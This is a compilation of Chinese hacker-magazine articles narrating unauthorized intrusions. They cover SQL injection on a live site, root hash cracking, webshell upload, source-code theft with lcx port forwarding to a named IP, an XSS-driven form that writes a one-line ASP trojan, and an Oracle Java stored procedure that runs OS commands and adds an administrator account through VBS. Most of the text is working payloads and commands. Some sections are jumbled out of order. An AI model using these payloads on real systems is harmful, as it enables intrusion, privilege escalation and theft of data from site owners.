

小天代栏目：

本期“黑同学”再次被病魔成功入侵，病势查杀无效，卧床不起。新闻小编继续连载《时杂命代码》本期发文，在一堆挖掘文章中通过筛选，最终选出了本期的 13 篇文章。虽不能说每篇都是精华，但至少在我看来，每篇都有亮点，希望大家喜欢；另外，提醒各位编辑 GG 和小黑们，在钻研技术的同时千万注意身体，保重！感冒也受不了吧？

- 1. 入侵攻击策略
- 2. 根据已知的信息不断地调整和修正思路

## 前言

偶以为，网络渗透跟武术、军事之间都有些许的联系，它们都是攻击，都要知己知彼，也都要讲究策略和战术。本文以一次渗透为实例，讲述了笔者如何随着对目标更多的了解而不停地变换攻击策略的过程。技术上没有难关，主要是思路的变换，体现了作者渗透经验的丰富。而经验，需要实战的累积。

## 正文

打开目标网站，我的 Firefox 扩展组件 Domain Details 显示出网站的 Web 信息：

- 1. HTTP 服务器采用的是 IIS6
- 2. 网站 IP 显示服务器位于美国

粗略地浏览了一下该网站，比如图片所在目录、参数传递方式等，目的是搞清楚该网站的应用逻辑，从而判断出漏洞容易出现的地方。

很快，从一个动态查询页面中找出了一个注入点。首先，根据单引号的报错信息得知，网站使用的是 `cfm + mysql` 架构，于是开始用 `order by` 猜测字段数，如图1。

从图1中的错误反馈信息我们获得以下信息：

- MYSQL 版本为 4.0.26 debug
- 字段数小于 10

那么利用二分法继续猜测，5 返回正常，而 6 返回错误，可以确定为 5 个字段。接下来就用经典的 `union select` 来获取数据库中我们想要的信息，如图2。

当前数据库用户 “o3world@ds18861-5” 以及数据库主机名显示在了页面中。可是奇怪，怎么不是 localhost，难道 Web 与数据库分离？暂时不管它，利用同样的方法我们获得了当前数据库名为 “bestdressedtables”。

进行到这一步，我们对环境已经很了解了，因此下一步的思路……







如果当前数据库用户有 file 权限，那可以利用 `load_file()` 函数读取服务器上的文件内容。而如果 `magic_quotes_gpc` 为 off，在探到网站根目录的情况下还可以直接 `select outfile` 一个 shell 进去。

如果没有 file 权限，而当前 mysql 为 4.0 版，没法直接用工具跑数据库进后台，只有手工猜解表名、字段名，然后获得管理员数据进入后台并想办法得 webshell。

先来看看当前数据库用户 o3world 是否有 file 权限，结果如图3。

返回 `Y`，也就是具有 file 权限，看来自前用户不一般。既然连 file 权限都给了，不如试试看直接读取 root 密码 hash 值，结果如图4。

结果很理想，成功获得 root 密码 hash 值，而且由于 mysql 5.X 以下版本的密码加密算法很脆弱，网上已经出现了专门破解器对这种算法的代码，我已经用 VC 6.0 将其编译成了 exe 程序，所以可以直接拿来破。不过在破之前先来看看我们当前用户的密码吧，结果如图5。

真是没想到，用户 o3world 的密码居然与 root 的一样，怪不得这个用户的权限这么高。进行到这一步，环境发生了变化，那么我们的攻击策略自然也要相应改变，分如下 2 种：




```text
C:\Qj_hacking>mysql 1e3ceabf22739ba5b
mysql error 1045 (28000): Philippe Vixier & www.sqlhack.com
password for root@localhost: 1e3ceabf22739ba5b  "o3ozone"
```


如果网站与数据库分离，不在同一台服务器上，那么最直接的办法就是通过注入点获得管理员数据进入后台想办法得 webshell。但是假如该办法通过后台获得 webshell，可以尝试连接数据库服务器，在拿下数据库服务器后进行内网渗透，最终拿下网站所在服务器。

如果网站与数据库在同一台服务器上，那么可以尝试直接用 root 连接服务器的 3306 端口，再用 `select outfile` 导出一个 shell。当然，前提是知道网站的物理路径。

下面拿出 nmap 扫描一下端口，结果如下：

| PORT | STATE | SERVICE | VERSION |
|---|---|---|---|
| 25/tcp | open | smtp | Microsoft ESMTP 6.0.3790.3959 |
| 53/tcp | open | domain | Microsoft DNS |
| 80/tcp | open | http | Microsoft IIS webserver 6.0 |
| 443/tcp | open | ssl/http | Microsoft IIS webserver 6.0 |
| 1026/tcp | open | msrpc | Microsoft Windows RPC |
| 1028/tcp | open | msrpc | Microsoft Windows RPC |
| 1029/tcp | open | msrpc | Microsoft Windows RPC |
| 1030/tcp | open | msrpc | Microsoft Windows RPC |
| 1234/tcp | open | http | Microsoft IIS httpd |
| 3306/tcp | open | mysql | MySQL 4.0.26-debug |
| 3389/tcp | open | microsoft-rdp | Microsoft Terminal Service |
| 8080/tcp | open | http | Microsoft IIS httpd |
| 9998/tcp | open | http | SmarterTools httpd 1.0.1354.30613 |
| 9999/tcp | open | http | SmarterTools httpd 1.0.1297.29787 |
| 50003/tcp | open | remoting | MS .NET Remoting Services |
| Service Info: Host: ds18861-5; OS: Windows |  |  |  |

开放的端口有很多，最兴奋的是看到了 3306 和 3389，而最关键的还是看到了主机名“ds18861-5”。原来数据库和网站就在同一台服务器上。这下好办了，先 telnet 过去 3306 端口，看看是否有 ACL。

结果告诉我，可以直接连接，对方并没有设置 ACL。这些操作完成后，root 密码也破解了出来，结果如图6。

那么也不需要手工猜解表名、字段名那些了，直接登录就都搞定了，如图7。

由于 `select outfile` 需要知道网站的物理路径，既然目前已经可以直接进入后台，那还是先进后台看看再说吧，如图8。


功能挺丰富，就是安全性太差，我直接上传了一个 cfm 页面便成功获得 webshell，如图9。

网站根目录已得知，下面来执行命令看看当前是什么权限。按照我过去的经验，Windows 平台下用 IIS 加载 cfm 解释器来构建网站，默认 cfm 解释器是以 system 权限运行的，执行结果如图10。

果然是 system 权限，那太棒了，直接添……


# 结语

整篇文章并没有技术难点，都是基本功在不同环境下的运用。以前有很多文章都在讲“关键是思路”等等类似的话，但是往往初学者都是照着文章或动画教程里的步骤在做，甚至于工具都是一模一样，何来自己的思路呢？平时多积累工具，在渗透了一定数目的网站、熟悉网络渗透的整体流程后，多想想为什么要这样做，可不可以那样做。持之以恒，就会逐渐形成自己独特的一套体系跟思路了。

> 编辑点评：
>
> 文章不咋，贵在人先做了一些假设来支撑自己的思路，然后在入侵中根据获取到的信息不断地调整自己的思路，最终完成入侵过程。本文的价值也就在于其不断地收集、整理已知的信息，进而不断地调整。

加一个用户然后连接 3389 就可以看到桌面了，它的 workgroup 如图11。

## 火逸炼时 代码获取

本文展现的是一次渗透实战。

这几天在网上闲逛，看中了一个网站，SEO 优化上做得很不错，遂想 down 下其代码来，便有了此次测试过程。

## 一、环境刺探、摸敌情

网站采用的是 ASP 生成静态 HTML 页面的办法，前台显示的与数据库进行交互的 ASP 页面很少，只发现有一个搜索功能，如图1。


用 wwwscan 探测了下目录，也没发现什么可利用的，后台也都做了全面的权限控制。在 ip866 上旁注了一下，服务器上有几十个站，WEB 程序都是用的同一套代码，扫了下服务器端口发现只开放了 80。

## 二、号角吹响，杀入阵地

- 1. 先试试是否有搜索型漏洞，随便搜索一个关键词，结果如图2。
- 2. 再分别提交 `1' and 1=1 and '%'='`、`1' and 1=2 and '%'='`，返回结果如图3、图4。

前者返回正常而后者出错，证明存在搜索型漏洞。手工猜解确定存在 admin 表，表下有 admin 与 password 字段，如图5。

```text
1%' and (select Top 1 Asc(mid(admin,1,1)) From admin)<>0 and '%'='
```

可用上述语句猜解字段内容，却出现了如图6的错误。

这就让人费解了，对表名与字段的猜解都成功明显，为什么猜解内容就报错了呢？百度了下，网上找到的答案是：“当您试图在字段中插入超出允许数量的数据时（例如在格式设置为仅接受 25 个字符的 Microsoft Access 字段中插入 26 个字符），会出现此错误。”难道搜索的数据会被记录写到 Access 中吗？没办法了，请教了下水区的一位高手，他们就告诉我，程序用的是 SQL Server 数据库，后台登录页面存在注入，在用户名出错时返回的登录警告如图7。

```text
' (select top 1 unicode(substring(admin,1,1)) from admin)<>0--
```

而在用户名处填入上述语句，密码任意时警告信息如图8。看来自己太武断了，以为这样的小站肯定是用的 Access。


备份都失败，难不成服务器又做了什么 BT 设置？只好继续满服务器跑，功夫不负勤奋人，终于找到了个 FCK 的编辑器，新建了一个后缀为 .asp 的文件夹，如图 14，利用 Win03 的目录解析漏洞成功地得到了 webshell。

## 五、缴获战利品

### （代码与数据库下载）

有了 webshell 这下就方便了，先下代码。由于 SQL Server 数据库是放在 WEB 目录下的，整个文件夹有 2G 多，用 webshell 马自带的打包功能进行打包时超时了，接着上传了一个 cmd，执行 cmd 命令“`"C:\Program Files\WinRAR\rar.exe" a E:\website\1.rar E:\Website`”，成功将代码打包。

```text
"C:\Program Files\WinRAR\rar.exe" a E:\website\1.rar E:\Website
```

`(substring(admin,10,1)) from admin)<>0--`”，如图 9。

接下来就是体力活了，修改下工具，猜出了用户名密码，如图 10。

成功登录后台，当然这里也可以直接 update 掉管理员的密码，但这样未免动作太大了。

## 三、杀入后台

在后台转了转，发现功能比较单一，如图 11。大多是生成静态页面的功能，而生成的方式是直接读取数据库获得内容后再生成 HTML 文件。系统存在图片上传功能，上传了正常图片抓出 cookie，用明小子的“综合上传”功能尝试上传 asp 木马失败，不存在上传漏洞；修改网站配置，却发现信息并不是保存在页面中，而是储存在数据库里，配置文件插码也只得作罢，又陷入僵局。

接下来就是数据库了，打开数据库连接文件，用 SQL 2000 的企业管理器进行连接，失败！估计数据库不允许外连或者更改了端口。

## 四、山重水复，柳暗花明

突然想起既然前台存在注入，后台会不会也存在呢？如果存在且数据库用户权限高的话，用工具说不定能列出目录来。转了一圈，果然找到了一个数字型注入，测试效果如图 12。

由于是后台注入，必须先登录，这下就请出啊 D 吧！先用“注入点检测”打开后台地址，登录成功后再在“进行 SQL 注入”上填写后台注入点地址，稍等片刻后目录表被列出来了，如图 13。

这时发现权限很大，整个磁盘都可以浏览。既然目录列出了，物理地址也得到了，就试试数据库备份吧。可用差异备份和 LOG。

在网上找了段 asp 的代码，将数据库备份了回来，在 SQL 2000 中导入还原却失败，才发现原来数据库是 SQL 2005 的。接着上传一个 lcx 到服务器上将其端口转发到本地，命令为：“`"C:\RECYCLER\lcx.exe" -slave 142.117.174.122 5757 127.0.0.1 3568`”，再在本地执行“`Lcx.exe -listen 5757 1433`”，连接如图 15。

```text
"C:\RECYCLER\lcx.exe" -slave 142.117.174.122 5757 127.0.0.1 3568

Lcx.exe -listen 5757 1433
```

## 六、后记

此次的检测虽然达到了预想的目标，但回想起来却很失败。看到企业站，就想当然地认为是 ACCESS 的数据库，造成了在搜索型注入的利用出错。在发现数据库是采用 MSSQL 时，又以为是 SQL 2000，造成了在后台注入点备份出 webshell 的再次不成功。后来才发现，当初这个数据库连接账户是用的 SA 权限，SQL 的一些危险扩展都没有做任何安全处理，可自己技术的欠缺和某些想当然的想法终究没能让它们完美演绎。

这里将这段存在诸多遗憾的测试过程写了出来，警醒菜鸟朋友们打好扎实的基础，时刻保持清晰的思路。

> 编辑点评：本文的目的是获取目标站点的源代码，在历经挫折后终于达到了目的，而后作者反省其犯的错误，望各位小黑留意。

# 跨站跨出 webshell

## 思路拓展

从本文可以学到跨站的再思考。

某日在单位没法上网，老大又让研究一些东西，于是便乱翻“黑手”原来的文章，没想到还真的看出了一点有价值的东西。大家最好手头有 08 年第一期的《黑客手册》或台订本，没有也没关系，跟着我的思路对着我提供在光盘里的文件一步一步来做吧！相信各位一定会有不一样的收获！

樱花浪子在 0801 期“黑手”发表过《跨站跨出 WEBSHELL》一文，里面写到了拿 WEBSHELL 的方法，就是上传一张带有 `<html>` 标签的图片，然后在跨站语句中跟 `<iframe>` 引用图片的地址，图片就能被当做 HTML 网页执行，然后再通过表单的 POST 方法来备份木马。

- 1. 为什么不能直接用语句 `<script src="http://URL/1.js">` 引用一个 JS 呢？这样就不用上传图片了，直接引用我们自己的 JS，不是更方便吗？
- 2. 如果存在跨站，上传一张图片就能执行一切 HTML 和 JAVASCRIPT 代码，这意味着，只要知道后台能获得 WEBSHELL 的方法，从理论上讲就能够通过跨站获得 WEBSHELL。

先看第一个问题，经过我五分钟的本地实验得知：`<script src="http://URL/1.js">` 能实现脚本语句，如 `alert("1")`，而运行 `<html>` 标签要在 `document.write('<html></html>')` 中，在引号中可能产生一系列问题而导致不方便。而 `<iframe src="URL">` 既可以运行脚本语句也可以运行 `<html>` 标签，并且不存在闭合之类的问题，如图 1。

好了，既然知道 `<iframe>` 标签明显比较猛，那就用它了！我们再来看看第二种想法：是否只要存在跨站，后台有获得 WEBSHELL 的方法，就能够通过上传图片的方法获得 WEBSHELL 呢？

苦于“几百年”没上网了，总不能叫我自己写一个这样的系统出来吧！没关系，咱还有“黑手”光盘呢！浪子的那篇文章附带有个“中华免费家教网整站程序”，正好文章也是分析此系统的跨站漏洞的，咱就用这个系统来做做实验吧！

搭好环境建好系统，后台功能如图 2。其中没有数据库操作的页面，但是有个“网站信息管理”，功能还不全。

大家知道，一般这样的配置信息都是写入 `Config.asp` 文件中，可以通过直接插入木马来获得 webshell。可是这个系统却不是这样，我们来查看源代码，就是处理提交表单的地方，发现表单被提交到 `updata_info.asp` 文件，如图 3。

打开 `updata_info.asp` 文件，发现提交上的数据未经过过滤就全部被写入了数据库，相关代码如下：

```text
upsize=request("upsize")
logo=request("logo")
webname=request("webname")
webaddress=request("webaddress")
adminemail=request("adminemail")
address=request("address")
post=request("post")

sql="update info set webname='"&webname&"', webaddress='"&webaddress&"', adminemail='"&adminemail&"', logo='"&logo&"', address='"&address&"', post='"&post&"', tel='"&tel&"', index1='"&index1&"', index3='"&index3&"', index4='"&index4&"', index5='"&index5&"', qq='"&qq&"' where id=1"
rs.open sql,conn,1,1
set rs=nothing
set conn=nothing
```

这样如果数据库是 asp 后缀的话，我们把小马写进去就可以直接连接得到 webshell 了。可惜这个数据库是 mdb 后缀的，不过不要紧，我给大家说的是一种思路，以后碰到具体系统再具体分析。

- 1. 将配置页面保存为本地的 HTML 网页，写入小马和自动提交语句。
- 2. 将这个网页改名为 jpg 后缀并上传到网上。
- 3. 在存在跨站漏洞的地方输入 `<iframe src="http://127.0.0.1/1.jpg" width=0 height=0></iframe>` 来包含我们的恶意 HTML 网页，静静地等待管理员来参观……

说干就干，先复制源代码保存住本地，如图 4。这里要改两个地方，第一个是表单提交的 URL。原来是相对于网站的地址，现在要改成完整的地址，就是：`<form action="http://127.0.0.1/jobjim1/admin/updata_info.asp">`。第二个是要去掉提交长度的限制，咱们要在网站名称中插入小马，就把 input 按钮的 size 属性改成 100 吧，即能提交 100 个字符长度，如图 5。

这里我保存在 `http://127.0.0.1/1.jpg`，然后咱们开始第三步。

在“黑手”0801 期李武祥的《浅析中华免费家教网整站程序》中说到了跨站漏洞：依次进入“注册用户”－“会员中心”－“学员资料设置”，在具体地址中输入 `<iframe src=http://127.0.0.1/1.jpg width=0 height=0>`。对于网站的大小限制，采用本地提交方法即可。

好了，接下来就等着咱们可爱的超级管理员来参观跨站页面吧！用管理员账号登录，依次进入“学员管理”－“我们关注班账号的详细信息”－“查看学员资料”，哈！弹出个“修改成功，即将返回”的提示，如图 8。

```html
action="http://127.0.0.1/jobjim1/admin/updata_info.asp">
...
<input name="webname" type="text" value="<%eval request(chr(35))%>" size="100">
```

现在来写入小马和自动提交语句。大家看图 5 中“网站名称”的 input 按钮的 value 值（也就是要自动提交的内容），被我替换成了 `<%eval request(chr(35))%>`。这是因为使用 `<%eval=request("#")%>` 的话会发生和前面 input 的双引号闭合的问题，所以这里必须要用不带双引号的小马。其中 chr(35) 就是“#”的意思。

我们用数据库浏览器打开 DB 目录下的数据库，发现一句话木马已经被插入 info 表中，如图 9。

由于后台数据库使用的是 mdb 格式，咱们不能直接用一句话木马连接，发个改名后连接成功的截图吧，如图 10。

```html
<p align="center"><input type="submit" ...></p>
</form>
<script>document.form.submit()</script>
```

关于自动提交，同样有 2 个步骤。先给表单手动随便加个名字，就叫 form 吧，如图 6。

然后在表单结束之后加上自动提交脚本 `document.form.submit()`，如图 7。

现在把这个 html 文件另存为 `xx.jpg`，接着上传到网上或者 webshell 上。

## 后记

大家最好能跟着光盘里的文件对照文章照做一遍，这样会对跨站攻击的理解有所提高。现在的网站存在跨站的地方还是蛮多的，只要把跨站漏洞与后台功能结合起来，就能够发挥强大的作用！只要前台能够跨站，后台能够进行数据库 SQL 语句操作，当通过备份数据库、写入配置信息到 config 脚本文件等方法能够获取 webshell 时，都可以依靠管理员的 “session” 来获得 WEBSHELL。希望各位高手、菜菜在此基础上开拓思路，多想些好的方法来分享！还有就是：多看些以前的“黑手”杂志，或许会有不一样的收获！

> 编辑点评：文章本身没有新的技术，只是对以前老文章的再阅读和再思考，通过跨站写入一句话木马进而获取 webshell。

# Oracle 提权点滴记录

■ Msnh4ck（晓华）[岁月联盟]

从本文可以学到 Oracle 提权技巧。

利用 Oracle 弱口令进行数据库攻击应该算是比较老的技术了，但是国内很多主机仍然存在着默认的口令，一些大型系统也不例外。经过笔者的测试，发现至少 50% 的 Oracle 主机存在着默认口令，当然测试的版本主要集中于 10G 以前的老版本，对于新版本来说，这方面要安全许多，因为在安装时会提示用户修改密码。另外，一些不用的普通账户也会处于锁定状态。

Oracle 弱口令抓鸡在国内还是一片热土，许多新手黑客热衷于应用黑客工具去批量抓鸡。主机在受到攻击后会加强安全，自然入侵的疯狂步伐也会慢下来，权限争夺就会成为一个热门的话题。

下面笔者将带领新手朋友进行一次 Oracle 权限争夺战，相信其中的攻击技巧会对你有所帮助。如何扫描 Oracle 的弱口令以及 SID 号码请参考《黑客手册四周年纪念刊》中《通过 Oracle 数据库默认口令获得服务器权限》一文，笔者这里不再重复。

下面使用得到的口令以及 SID 号登录远程 Oracle 数据库，登录语句如下，成功登录后如图 1 所示。

```text
sqlplus DBSNMP/DBSNMP@//221.XX.XX.8:1521/orcl
```

现在创建一个 JAVA 源程序，以便执行系统命令。创建 JAVA 的语句如下：

```text
create or replace and compile
java source named "util"
as
import java.io.*;
import java.lang.*;
public class util extends Object
{
public static int RunThis(String args)
{
Runtime rt = Runtime.getRuntime();
int RC = -1;
try
{
Process p = rt.exec(args);
int bufSize = 4096;
BufferedInputStream bis = new BufferedInputStream(p.getInputStream(), bufSize);
int len;
byte buffer[] = new byte[bufSize];
// Echo back what the program spit out
while ((len = bis.read(buffer, 0, bufSize)) != -1)
System.out.write(buffer, 0, len);
RC = p.waitFor();
}
catch (Exception e)
{
e.printStackTrace();
RC = -1;
}
finally
{
return RC;
}
}
}
/
```

```text
create or replace
function RUN_CMZ(p_cmd in varchar2) return number
as
language java
name 'util.RunThis(java.lang.String) return integer';
/
create or replace procedure RC(p_cmd in varchar2)
as
x number;
begin
x := RUN_CMZ(p_cmd);
end;
/
variable x number;
set serveroutput on;
exec dbms_java.set_output(100000);
grant javasyspriv to system
```

将以上代码保存为一个 sql 脚本文件，然后存放在系统根目录下，笔者这里保存为 java.sql。接着执行如下语句进行自动创建：`@c:\java.sql`。成功创建后如图 2 所示。

Java 过程已经成功创建，如何调用它执行系统命令呢？我们可以使用如下语句进行调用：`exec :x:=run_cmz('cmd /c ver');`，执行成功后显示了当前操作系统的版本，如图 3 所示。

根据操作系统版本号可以确认当前系统为 Windows 2003，下面我们来看下当前系统的账户信息，执行如下语句：`exec :x:=run_cmz('cmd /c net user');`，发现 NET 命令无法执行，如图 4 所示。

当然，除了 NET.EXE 之外还有 NET1.EXE，以及 system32 目录下的 NET.EXE 和 NET1.EXE，它们可以执行同样命令。但是经过笔者的测试，发现都不能使用。

现在我们来判断下当前主机的网络环境，执行如下语句：`exec :x:=run_cmz('cmd /c ipconfig /all');`，同样无法执行，如图 5 所示。

经过测试，netstat 命令也不能执行。对于添加用户我们还可以使用 VBS 脚本，但是也需要 cscript.exe 以及 wscript.exe 支持，希望管理员没有将它们删除。

执行如下语句写入一个添加用户的 VBS 脚本，执行成功后如图 6 所示。

```text
exec :x:=run_cmz('cmd /c echo set wsnetwork=CreateObject("WScript.NETWORK") >c:\usr.vbs');
```图6 通过 ECHO 写入 vbs 脚本

图7 成功显示 vbs 脚本代码

```vb
exec :x:=run_cmz('cmd /c echo os^=^"WinNT:^"/^"/^"&VbNetwork.ComputerName >>c:\user.vbs');
exec :x:=run_cmz('cmd /c echo Set oa=CreateObject("Scripting.FileSystemObject") >>c:\user.vbs');
exec :x:=run_cmz('cmd /c echo Set ob=GetObject(os) >>c:\user.vbs');
exec :x:=run_cmz('cmd /c echo Set oc=GetObject(os&"^/^"Administrators,group") >>c:\user.vbs');
exec :x:=run_cmz('cmd /c echo Set od=ob.Create("user","bob") >>c:\user.vbs');
exec :x:=run_cmz('cmd /c echo od.SetPassword "123456abc!@#" >>c:\user.vbs');
exec :x:=run_cmz('cmd /c echo od.SetInfo >>c:\user.vbs');
exec :x:=run_cmz('cmd /c echo Set oe=GetObject(os&"^/^"/bob",user) >>c:\user.vbs');
exec :x:=run_cmz('cmd /c echo oc.Add os&"^/^"/bob" >>c:\user.vbs');
```

为了验证代码写入的完整性，这里使用 type 命令查看。执行如下语句：**exec :x:=run_cmz('cmd /c type c:\user.vbs');**，成功显示 vbs 脚本代码，如图7所示。

执行如下语句添加一个系统账户：**exec :x:=run_cmz('cmd /c c:\user.vbs');**，如图8所示。

究竟有没有成功添加呢？我们登录下远程桌面便知。vbs 添加的用户名为 bob，密码为 123456abc!@#，输入后“确定”却发现无法登录，如图9所示。

由于 vbs 默认是用 cscript.exe 进行解释的，这里换作 wscript.exe 来执行，语句为：**exec :x:=run_cmz('cmd /c wscript.exe c:\user.vbs');**。结果也是失败的，换条路继续我们的提权。笔者尝试用 ftp 以及 tftp 的方式上传木马，均告失败，注册表也被限制，映像劫持也无法发挥。

